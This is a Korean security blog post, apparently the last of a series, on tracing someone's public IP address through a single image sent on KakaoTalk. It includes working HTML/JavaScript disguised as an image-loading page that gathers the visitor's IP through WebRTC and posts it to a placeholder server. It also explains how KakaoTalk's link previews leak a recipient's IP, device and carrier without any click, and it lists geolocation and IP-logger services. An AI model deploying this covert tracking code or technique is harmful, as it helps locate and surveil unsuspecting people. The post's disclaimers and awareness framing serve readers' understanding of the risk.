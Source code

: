 ```yaml
---
title: "사진 한 장으로 아이피 추적하기4 -결론과 총정리"
categories:
  - security
tags:
  - 잡다한 연구
---
```


# 📸 사진 한 장으로 아이피를 추적해보자!

우리는 평소에 별 생각 없이 카카오톡으로 이미지를 주고받는다. 그런데 이 **단 한 장의 이미지**가 상대방의 **공용 IP 주소**와 **접속 환경**을 추적하는 수단이 될 수 있다는 걸 아는가?

---

## 🧠 1. WebRTC를 활용한 IP 추적 원리

**WebRTC**는 브라우저 기반의 P2P 기술로, 영상통화나 파일 전송에 쓰인다. 이 기술은 브라우저 간 직접 통신을 만들기 때문에, 특정 조건이 맞으면 상대방의 공용 IP 주소(심지어 내부 IP까지도!)를 노출시킬 수 있다.

### ✅ 기본 절차
1. 상대방이 WebRTC 추적 기능이 포함된 웹사이트에 접속하도록 유도
2. STUN 서버를 통해 상대방의 IP 정보를 수집
3. 수집한 IP를 기반으로 위치 추정

---

## 🖼️ 2. 이미지를 이용한 WebRTC 유도 방식

이미지만으로 WebRTC를 실행할 수는 없지만, **이미지를 가장한 HTML 페이지**나 **이미지에 연결된 링크**를 통해 상대방을 WebRTC 페이지로 유도할 수 있다.

### 📌 방법 A. HTML 파일을 이미지처럼 위장

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading Image...</title>
    <script>
        async function getIPs() {
            const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
            pc.createDataChannel("");
            pc.createOffer().then(offer => pc.setLocalDescription(offer));
            pc.onicecandidate = event => {
                if (event.candidate) {
                    fetch("https://yourserver.com/log_ip", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ ip: event.candidate.candidate })
                    });
                }
            };
        }
        getIPs();
    </script>
</head>
<body>
    <img src="your_image.jpg" alt="Image Loading...">
</body>
</html>
```

- 상대방이 이 페이지를 열면, WebRTC가 실행되고 `https://yourserver.com/log_ip`로 IP 정보가 전송된다.
- VPN이 아니면 공용 IP 주소가 정확하게 잡힌다.

> ⚠️ 단점: 링크를 열어야 하며, 브라우저에서 실행돼야 한다. 모바일에선 제한될 수 있다.

---

## ✅ 3. 실전 성공 사례: 카카오톡 '사진 미리보기'로 IP 추적

우리는 WebRTC보다 현실적인 방법으로, **카카오톡의 외부 이미지 미리보기 기능**을 활용해 상대방의 IP 추적에 성공했다.

### 🎯 방식 요약
- 외부 서버에 이미지를 업로드
- 해당 이미지의 URL을 카카오톡으로 전송
- 카카오톡은 상대방 단말기에서 이미지를 불러오며 미리보기 생성
- 이 과정에서 서버에 요청이 찍히고, IP 수집 가능

### 💡 핵심 포인트
- **상대방이 클릭하지 않아도**, 단순히 대화창을 열기만 해도 IP가 수집됨
- 미리보기 이미지를 외부 서버에서 불러오기 때문에 발생하는 현상

---

## 📄 실제 서버 로그 예시

```log
[접속] 2025-04-02 13:11:58
IP: 121.162.88.214
User-Agent: Mozilla/5.0 (Linux; Android 12; SM-G991N)
Referrer: KakaoTalk
Device: Samsung Galaxy S21
```

이 정보를 통해, 우리는 다음과 같은 내용을 추출할 수 있었다:
- 접속 지역 (대략적)
- 통신사 (KT, SKT 등)
- 기기 모델명
- 브라우저 및 운영체제

---

## 🌍 4. IP 분석에 사용된 도구들

| 도구 | 기능 |
|------|------|
| [ipinfo.io](https://ipinfo.io) | IP 위치, ISP, 도시, 위도/경도 정보 제공 |
| [db-ip.com](https://db-ip.com) | 좀 더 정확한 위치 및 기업/학교 정보 |
| [ip-api.com](https://ip-api.com) | JSON 형태로 제공, API 연동 쉬움 |
| [whois.domaintools.com](https://whois.domaintools.com) | 통신사 및 네트워크 소유자 확인 |

### 📌 예시 결과
```
IP: 121.162.88.214
도시: 인천광역시
통신사: SK브로드밴드
ASN: AS9318
```

---

## ⚠️ 주의사항 및 윤리적 고려

- 본 기술은 **공격용이 아니라 실험, 연구, 보안 교육** 목적으로 작성되었습니다.
- 카카오톡이나 WebRTC의 취약점을 악용할 경우 **정보통신망법, 개인정보보호법 등에 따라 형사처벌** 받을 수 있습니다.
- 실제 적용 시 반드시 **법적 절차**와 **윤리적 판단**을 기반으로 해야 합니다.

---

## 🧾 결론

| 방식 | 클릭 필요 여부 | 성공률 | 비고 |
|------|----------------|---------|------|
| WebRTC 링크 유도 | ✅ 필요 | 중간 | 브라우저 열람 필요 |
| 카카오톡 이미지 미리보기 | ❌ 불필요 | 매우 높음 | 실제 실험에서 성공 |

📌 **우리의 결론은?**  
"카톡으로 온 아무 이미지도 쉽게 열지 말자."  
단 한 장의 짤방, 단 한 장의 사진이 당신의 위치를 말해줄 수 있다.

---

### 💡 관련 도구 및 링크

- [Grabify IP Logger](https://grabify.link)
- [iplogger.org](https://iplogger.org)
- [ipinfo.io](https://ipinfo.io)
- [db-ip.com](https://db-ip.com)

---

> 작성자 주: 이 글은 실제 실험을 바탕으로 작성되었으며, 보안 인식 제고와 기술적 학습을 목적으로 합니다.
